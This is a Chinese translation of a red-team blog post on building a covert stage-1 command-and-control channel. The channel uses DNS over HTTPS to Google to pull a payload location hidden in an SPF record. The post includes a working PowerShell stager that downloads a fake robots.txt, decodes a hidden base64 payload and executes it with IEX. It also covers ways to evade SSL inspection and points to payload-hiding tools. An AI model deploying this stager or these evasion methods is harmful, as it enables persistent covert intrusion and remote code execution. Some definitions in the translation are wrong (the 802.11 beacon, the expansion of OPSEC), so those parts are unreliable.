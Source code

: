 ## 使用DNS over HTTPS（DoH）构建弹性C2基础架构
> 本文翻译自：https://outflank.nl/blog/2018/10/25/building-resilient-c2-infrastructues-using-dns-over-https/

> 信标: 用来宣布802.11网络的存在。Beacon帧中除了包含BSS参数的信息，也包含接入点缓存帧的信息，因此移动式工作站要仔细聆听Beacon信号。
保持对目标网络的可持续访问是防范攻击行为的里程碑之一。在我们的运营期间，我们使用各种类型的短程信标进行日常运营。如果所有短程信标都失败了，那么可以通过返回频率较低的远距离信标可以恢复对目标网络的访问。因此，远距离信标的运行方式应该不会引起蓝军的注意。

### 导读
出于OPSEC(英文为 Open Platform for Security，顾名思义，它代表了在网络安全方面的一种开放式平台)的原因，在低速和慢速通道（第1阶段，长途通道）和运营通道（第2阶段，短程）之间划分命令和控制（C2）是一个好习惯。本博文提供了使用DNS over HTTPS（对dns.google.com进行HTTPS调用以检索DNS TXT记录）构建第1阶段C2频道的详细操作信息，以触发下载一个stager，它随后将启动第2阶段C2的Payload。

### 为什么要在C2中创造多样性
构建不同的和并应用的多样化是实现命令和控制基础架构的可靠性和安全性（OPSEC）的重要机制。其中，良好的C2基础设施应具有以下特征：

+ 如果另一个频道被切断，备用频道可用
+ 对一个频道的调查不会直接暴露其他频道
+ 在目标系统上的暴露您的操作植入物是有限的
各种APT小组用来实现这一目标的常用模式是使用具有基本功能的长途C2信道（阶段1 C2），可用于临时部署通过另一个信道进行通信的高级且复杂的植入物（阶段2 C2）。通过这种方式，可以创建一个非常有弹性的基础设施，有价值的植入物落入调查人员的手中的机会是有限的。

在本博文中，我们将演示如何使用DNS over HTTPS模拟这种模式。

### 什么是DNS over HTTPS（DoH）以及我为什么要关心它？
DNS over HTTPS（DoH）允许通过HTTPS协议进行DNS解析，如[RFC8484](https://tools.ietf.org/html/rfc8484)中所述。DoH的目标之一是增加用户的隐私，通过HTTPS解析DNS查询。各方都有提供DoH，这一点谷歌做的很好。

从攻击的角度来看，当我们使用DoH时，我们可以执行请求：

+ 向已知的且值得信赖的一方发送请求（例如Google）
+ 我们可以从中控制响应
+ 通过SSL加密的信道
+ 如果被检查的话，那就变得不显眼

除了这些特征之外，我们发现许多已实施SSL检查的客户因各种原因（Google产品中的证书，流量负载，隐私等）将所有Google域排除在检查范围之外。总而言之，这使得DoH通过谷歌成为触发Payload的理想信道。

下图展示了一个Python的示例，通过HTTPS为 `‘yourdomainhere.nl’`域的TXT记录向dns.google.com的发送了单个DNS请求，它也显示了响应。

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181027205352-5b70c52c-d9e7-1.png)


### (Ab)使用DoH进行Payload触发
现在我们知道DoH是怎么工作的了，那么我们如何（ab）使用它来触发Payload传输呢？我们能够控制系统定期提取DNS应答的内容。使用DoH，我们能够将少量数据（即Payload位置信息）传送到目标网络中的受感染系统。

从OPSEC的角度来看，在DNS TXT记录中如果只包含主机名或目标网址并不是一个好的主意。例如，您可以使用SPF记录来嵌入stager域。SPF记录看起来是安全无害的，它可以包含IP地址，域或服务器名称。

想象一下，当您想要提供新的Payload时，您有一个默认的SPF记录添加域。触发器的接收端将发现添加到SPF记录的主机名并对其进行操作。

下图显示了一个DNS TXT响应的示例，其中嵌入了域名。该域名可以由定期提取DNS TXT记录的stager来提取。

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181027205400-6010eaee-d9e7-1.png)


### Payload编码：隐藏在robots.txt中
由于大小限制，Payload本身不会通过DoH提供，我们需要对Payload进行编码，使其与正常的网络流量混合在一块。下图显示了一个基本示例：`'robots.txt'`文件似乎只包含文本。但是，实际上该文件包含一个base64编码的PowerShellPayload（例如Cobalt Strike PowerShellPayload），并有额外的空格来避开最后的任何'='字符。这个Payload被反转并以随机块的形式被剪切，并添加了“Disallow：/”和“.html”字符串，以模仿真正的robots.txt文件。

可以在我们的GitHub上找到用于将Payload嵌入robots.txt的Python代码。用法：

`python HideInRobots.py payload.ps1`

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181027205409-6580173e-d9e7-1.png)

对于大多数操作，您可能希望在分段期间进一步隐藏Payload。我们的一些爱好者可以帮助您完成此过程：

+ 通过隐写术将PNhell隐藏在PNG图形中： https://github.com/peewpw/Invoke-PSImage
+ 使用Cloakify在文本中隐藏Payload： https://github.com/johnaho/Cloakify-Powershell

### DoH stager示例代码
我们的远程C2信道（阶段1）的接收端是一个独立的过程，定期轮询DoH上的DNS TXT记录。下面的代码段包含一个PowerShell示例，可以用来使用DoH Google服务不停地查询域的DNS TXT记录。请求使用HTTPS与dns.google.com进行通信。当然，在OPSEC方面，您可能不想使用PowerShell，而是想根据目标的环境来定制DNS TXT应答、Payload位置和睡眠时间。

在下面的示例中，如果收到一个`‘vspf1 include: -all’`响应，它将返回休眠10小时。如果响应更长，它将提取嵌入在响应中的域名，从域名下载 `‘robots.txt’`。

```
function Invoke-SPFtrigger
{
 while($true)
 {
  $hostn = ""
  $spf = (New-Object System.Net.Webclient).DownloadString("https://dns.google.com/resolve?name=yourdomainhere.nl&type=Txt")
  $offsetA = $spf.IndexOf("v=spf1 include:")+15
  $offsetB = $spf.IndexOf("-all")-1
  $hostn = $spf.substring($offsetA,$offsetB-$offsetA)
  if ($hostn.Length -ge 3 ){
    $dl = (New-Object System.Net.Webclient).DownloadString("http://" + $hostn + "/robots.txt")
    $dl = $dl.Replace(".html`n", "")
    $dl = $dl.Replace("Disallow: /", "")
    $dl = $dl[-1..-($dl.length)] -join ""
    $c = [System.Convert]::FromBase64String($dl)
    $st = [System.Text.Encoding]::ASCII.GetString($c)
    IEX($st);
  }
  sleep(3600)
 }
}

Invoke-SPFtrigger
```
您现在可以使用此远程通道来安排您的“交互式”和“可操作”C2通道（您的Cobalt Strike，Empire，Slingshot或自行开发的植入物）升级。尽情愉快地展现你的创造力吧！

### DoH上的Cobalt Strike beacon
除了DoH上单独触发您的信标之外，您还可以使用DoH作为主C2通道。SpiderLabs最近发布了一个即用型Cobalt Strike外部C2模块：https://github.com/SpiderLabs/DoHC2

这篇博文中提到的代码可以在如下链接中找到： https://github.com/outflanknl/DoH_c2_Trigger
